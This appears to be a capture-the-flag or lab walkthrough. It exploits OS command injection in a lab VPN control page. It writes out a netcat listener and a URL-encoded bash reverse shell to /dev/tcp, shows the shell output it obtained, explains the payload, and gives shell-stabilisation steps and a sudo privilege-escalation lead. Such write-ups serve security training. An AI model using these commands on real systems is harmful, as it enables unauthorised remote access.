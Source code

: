 ## Netcat listener
Create a listener on your Kali Machine.
```
nc -lvnp 1337
```


## Burp Suite OS Command Injection
- Visit http://10.200.X.12/vpncontrol.php. You can get the IP from the VPN connection request.
	- TCPv4_CLIENT link remote: [AF_INET]**10.200.118.12**:1194

- Click on the "Submit" button and send it to Proxy.
- Send the request to "Repeater".
- Add the following code to the request:
```
	+%26%26+bash+-i+>%26+/dev/tcp/<KALI MACHINE IP>/1337+0>%261
```
![[burp_vpn.png]]

- Send the request.
- You'll get a reverse shell on your netccat listener.
	listening on [any] 1337 ...
	connect to [10.50.115.9] from (UNKNOWN) [10.200.118.12] 56484
	bash: cannot set terminal process group (982): Inappropriate ioctl for device
	bash: no job control in this shell
	www-data@ip-10-200-118-12:/var/www/html$


### Shell syntax

```
&& bash -i >& /dev/tcp/<KALI MACHINE IP>/1337 0>&1
```

1. `&&`: This is the logical AND operator in shell scripting. It is used to execute the following command (`bash -i ...`) only if the preceding command (`hacker`) succeeds without errors.
    
2. `bash -i`: This is a command to launch a new instance of the Bash shell (`bash`) with the `-i` option, which stands for interactive mode. Interactive mode allows for interactive input and output, typically used when interacting with a terminal.
    
3. `>& /dev/tcp/10.50.115.9/1337`: This portion of the command redirects both standard output (stdout) and standard error (stderr) to a TCP connection established to the specified IP address (`10.50.115.9`) and port (`1337`). This syntax is often used for network communication in shell scripting.
    
4. `0>&1`: This part of the command redirects standard input (stdin) to the same location as standard output (stdout). This can be useful for ensuring that input from the keyboard is also sent over the network connection.
    

In summary, the command appears to be attempting to establish a network connection to the specified IP address and port while also launching an interactive Bash shell.

### Sanitize the shell
**Victim**

```
python -c 'import pty; pty.spawn("/bin/bash")'

ctrl + Z

stty raw -echo;fg
```

## sudoers


```
www-data@ip-10-200-113-12:/var/www/html$ sudo -l

```

User www-data may run the following commands on ip-10-200-113-12:  
(root) NOPASSWD: /home/ubuntu/openvpn-createuser.sh, **/bin/cp**


